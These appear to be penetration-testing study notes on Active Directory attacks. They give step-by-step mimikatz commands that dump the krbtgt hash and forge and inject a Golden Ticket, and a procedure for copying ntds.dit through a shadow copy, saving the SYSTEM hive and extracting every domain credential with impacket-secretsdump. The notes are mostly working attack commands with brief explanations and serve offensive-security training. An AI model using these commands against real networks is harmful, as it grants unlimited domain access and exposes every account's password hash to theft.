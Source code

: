 # Golden Ticket
When user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. The secret key is actually the password hash of a domain user account called krbtgt.
For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins group, and domain controller will trust it because it is correctly encrypted.
>We must carefully protect stolen _krbtgt_ password hashes because they grant unlimited domain access. Consider explicitly obtaining the client's permission before executing this technique.

Obtain the NTLM hash of the krbtgt account:
```
lsadump::lsa /patch
```
Delete any kerberos tickets:
```
kerberos::purge
```
Creating golden ticket and injecting it into the memory:
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```
# Shadow Copies
>A _Shadow Copy_, is a Microsoft backup technology that allows creation of snapshots of files or entire volumes.

To manage volume shadow copies - microsoft offered a binary vshadow.exe.
As DA we can create a shadow copy that will allow us to extract the AD database file.
```
vshadow.exe -nw -p  C:
```
Take a note about shadow copy device name.
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```
To correctly extract the content of ntds.dit we need to save the SYSTEM hive from the Windows registry:
```
reg.exe save hklm\system c:\system.bak
```
Move two .bak files to your machine and use impacket tools to extract credentials from ntds.dit:
```bash
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
